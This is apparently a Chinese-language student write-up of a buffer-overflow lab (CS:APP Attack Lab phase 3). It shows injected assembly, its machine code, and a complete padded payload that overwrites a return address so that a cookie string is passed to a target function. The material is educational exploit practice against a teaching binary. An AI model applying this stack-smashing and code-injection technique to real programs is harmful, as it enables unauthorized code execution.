  C中的字符串表示是一个字节序列，最后跟一个值为0的字节。先用man ascii 找到需要的字符的字节表示
 ```
    Tables
       For convenience, below are more compact tables in hex and decimal.
          2 3 4 5 6 7       30 40 50 60 70 80 90 100 110 120
        -------------      ---------------------------------
       0:   0 @ P ` p     0:    (  2  <  F  P  Z  d   n   x
       1: ! 1 A Q a q     1:    )  3  =  G  Q  [  e   o   y
       2: " 2 B R b r     2:    *  4  >  H  R  \  f   p   z
       3: # 3 C S c s     3: !  +  5  ?  I  S  ]  g   q   {
       4: $ 4 D T d t     4: "  ,  6  @  J  T  ^  h   r   |
       5: % 5 E U e u     5: #  -  7  A  K  U  _  i   s   }
       6: & 6 F V f v     6: $  .  8  B  L  V  `  j   t   ~
       7: ' 7 G W g w     7: %  /  9  C  M  W  a  k   u  DEL
       8: ( 8 H X h x     8: &  0  :  D  N  X  b  l   v
       9: ) 9 I Y i y     9: '  1  ;  E  O  Y  c  m   w
       A: * : J Z j z
       B: + ; K [ k {
       C: , < L \ l |
       D: - = M ] m }
       E: . > N ^ n ~
       F: / ? O _ o DEL
 ```
 故`0x6a1e7f12` 对应的序列是
 ```
 36 61 31 65 37 66 31 32 00
 ```
 
 文档里还说：调用hexmatch和strncmp函数时，会将数据压入栈中，覆盖getbuf使用的缓冲区的内存，你需要很小心把你的cookie字符串表示放在哪里。
 
 说明不能像phase2一样把cookie字符串放到getbuf的栈里面，那40个字符用来存放命令后填满即可。

考虑放到get的栈帧中，即越过56个字节的上方，因为不再返回了，那部分不会被触碰到

将cookie字符串存放在rsp初始位置+8字节的位置（随便加个偏移量就行，只要方便填充机器码），再把cookie字符串的起始地址存进%rdi

在phase2中已经得到栈顶指针%rsp的初始值为`0x5560fbc0`,故注入代码：
```
mov $0x5560fbc8,%rdi
pushq $0x401907
ret
```
下同phase2得到机器码
```
48 c7 c7 c8 fb 60 55 68
07 19 40 00 c3                    
```
用垃圾数据补充满56个字节，加上返回注入代码的地址（同phase2），加上4个字节（注入代码地址占了4个，加起来一共8个），再填充cookie
```
48 c7 c7 c8 fb 60 55 68
07 19 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 <- rsp
88 fb 60 55 00 00 00 00
36 61 31 65 37 66 31 32 00
```
通过
 